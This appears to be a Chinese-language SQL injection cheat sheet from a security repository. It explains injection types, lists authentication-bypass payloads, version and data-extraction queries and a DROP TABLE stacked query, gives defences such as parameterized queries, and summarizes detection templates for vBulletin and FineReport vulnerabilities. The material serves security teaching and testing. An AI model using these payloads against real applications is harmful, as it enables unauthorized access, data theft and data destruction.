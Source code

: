 # SQL 注入 (SQL Injection)

> SQL 注入（SQL Injection）是一种安全漏洞，允许攻击者干扰应用程序对数据库的查询。SQL 注入是最常见和最严重的 Web 应用程序漏洞之一，使攻击者能够在数据库上执行任意 SQL 代码。这可能导致未经授权的数据访问、数据操纵，在某些情况下甚至完全控制数据库服务器。

## 目录

* [速查表](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/)
    * [MSSQL 注入](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)
    * [MySQL 注入](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)
    * [Oracle SQL 注入](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md)
    * [PostgreSQL 注入](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)
    * [SQLite 注入](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)

## 什么是 SQL 注入？

SQL 注入是一种代码注入技术，攻击者可以通过它执行恶意的 SQL 语句，从而控制 Web 应用程序的数据库服务器。当应用程序在未正确验证或转义用户输入的情况下，直接将用户输入拼接到 SQL 查询中时，就可能发生 SQL 注入漏洞。

## SQL 注入类型

1. **基于错误的 SQL 注入**
   - 通过错误消息获取数据库信息
   - 示例：`' OR 1=1 --`

2. **基于布尔的盲注**
   - 根据页面返回的真/假状态推断信息
   - 示例：`' OR 1=1 --` 与 `' OR 1=2 --` 的比较

3. **基于时间的盲注**
   - 通过数据库响应时间的延迟来推断信息
   - 示例：`'; IF (1=1) WAITFOR DELAY '0:0:5' --`

4. **联合查询注入**
   - 使用 UNION 操作符从其他表中检索数据
   - 示例：`' UNION SELECT username, password FROM users --`

5. **堆叠查询注入**
   - 执行多个 SQL 语句
   - 示例：`'; DROP TABLE users; --`

## 常见 SQL 注入有效载荷

### 认证绕过

```sql
admin' --
admin' #
admin'/*
' or '1'='1
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1--
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1'--
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
admin') or 1=1--
admin') or 1=1#
admin') or 1=1/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055'
```

### 数据库版本检测

```sql
# MySQL
SELECT @@version
SELECT version()

# MSSQL
SELECT @@version

# Oracle
SELECT banner FROM v$version
SELECT version FROM v$instance

# PostgreSQL
SELECT version()
```

### 数据库内容提取

```sql
# 获取所有表名
SELECT table_name FROM information_schema.tables

# 获取所有列名
SELECT column_name FROM information_schema.columns WHERE table_name = 'users'

# 获取数据
SELECT username, password FROM users
```

## 防御措施

1. **使用参数化查询（预编译语句）**
   - 始终使用参数化查询而不是字符串拼接
   - 示例（Python）：
     ```python
     # 不安全的写法
     cursor.execute("SELECT * FROM users WHERE username = '" + username + "'")
     
     # 安全的写法
     cursor.execute("SELECT * FROM users WHERE username = %s", (username,))
     ```

2. **使用 ORM**
   - 使用对象关系映射(ORM)框架，如 SQLAlchemy、Hibernate 等

3. **最小权限原则**
   - 数据库用户应仅具有所需的最小权限

4. **输入验证**
   - 对所有用户输入进行严格的验证
   - 使用白名单而不是黑名单

5. **错误处理**
   - 不要向用户显示详细的数据库错误信息

6. **使用 Web 应用防火墙(WAF)**
   - 部署 WAF 来检测和阻止 SQL 注入攻击

## 工具

- [sqlmap](http://sqlmap.org/) - 自动化 SQL 注入工具
- [jSQL Injection](https://github.com/ron190/jsql-injection) - 轻量级 SQL 注入工具
- [BBQSQL](https://github.com/Neohapsis/bbqsql) - SQL 注入利用框架

## 学习资源

- [OWASP SQL 注入防御指南](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [PortSwigger SQL 注入实验室](https://portswigger.net/web-security/sql-injection)
- [SQL 注入速查表](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## 免责声明

本文档仅用于教育目的。请勿将其用于非法活动。在进行安全测试时，请确保您已获得适当的授权。

## 八、典型漏洞 YAML 文件分析

本目录及上级目录收录了多个与 SQL 注入相关的漏洞利用模板，以下对部分典型 YAML 文件进行详细解读：

### 1. CVE-2020-12720.yaml
- **漏洞类型**：SQL 注入（vBulletin）
- **漏洞原理**：
  vBulletin 某些版本存在访问控制不当，攻击者可通过构造恶意 SQL 语句注入数据库，实现未授权访问、数据泄露甚至系统控制。
- **探测原理**：
  该模板通过 POST 请求注入联合查询 SQL 语句，若响应中出现特定标识（如 vbulletinrce），则判定存在漏洞。
- **修复建议**：升级 vBulletin 至安全版本，修复 SQL 注入点。

### 2. vbulletin-ajaxreg-sqli.yaml
- **漏洞类型**：SQL 注入（盲注，vBulletin AjaxReg）
- **漏洞原理**：
  vBulletin 3.x/4.x 的 AjaxReg 功能存在盲注漏洞，攻击者可通过 time-based payload 验证注入点。
- **探测原理**：
  该模板通过注入 sleep(6) 等延时语句，若响应延迟明显且状态码为 200，则判定存在漏洞。
- **修复建议**：修复相关 SQL 拼接逻辑，过滤用户输入。

### 3. finereport-sqli-rce.yaml
- **漏洞类型**：SQL 注入导致远程代码执行（FineReport）
- **漏洞原理**：
  FineReport 某接口参数可被注入 SQL，利用 sum 等函数可实现任意 SQL 执行，甚至远程命令执行。
- **探测原理**：
  该模板通过 GET 请求注入表达式，若响应中出现特定计算结果，则判定存在漏洞。
- **修复建议**：升级 FineReport，修复 SQL 注入点。

---

#### 总结
SQL 注入漏洞常见于对用户输入未做有效过滤和参数化处理的场景。攻击者可利用注入点执行任意 SQL 语句，造成数据泄露、篡改、甚至系统控制。防御措施包括：
- 所有输入参数均应参数化处理，避免拼接 SQL
- 严格过滤和校验用户输入
- 限制数据库账户权限，最小化风险
- 定期安全测试和代码审计
